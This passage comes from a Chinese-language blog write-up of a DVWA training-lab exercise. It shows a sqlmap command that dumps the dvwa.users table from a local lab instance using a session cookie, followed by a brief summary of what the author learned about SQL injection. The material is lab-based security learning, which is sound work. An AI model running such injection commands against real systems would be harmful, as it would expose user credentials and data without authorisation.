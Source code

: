 ![image-20220427153558093](image-20220427153558093.png)

一键列出表名和字段名！

然后我们直接用 sqlmap 列出 `dvwa.users` 这个表的内容。

```bash
sqlmap -u 'http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie 'PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=low' -D dvwa -T users --dump
```

![image-20220427153909726](image-20220427153909726.png)

完成。之后可能再专门学一学 sqlmap 可以怎么玩，DVWA 确实是个好靶场。

## 总结

SQL注入还算是熟悉一点，毕竟上初中那会儿就玩过了，就是那时候不懂事根本没细看。可惜了年轻的自己就是个傻逼啊。

SQL注入没什么可总结的，熟悉SQL之后DVWA这种简单的注入是信手拈来的事情，连源码都给了，注不进去才奇怪。之后研究sqlmap的时候可能再看看都有什么注入技巧，说不定也是可以迁移到其他地方的。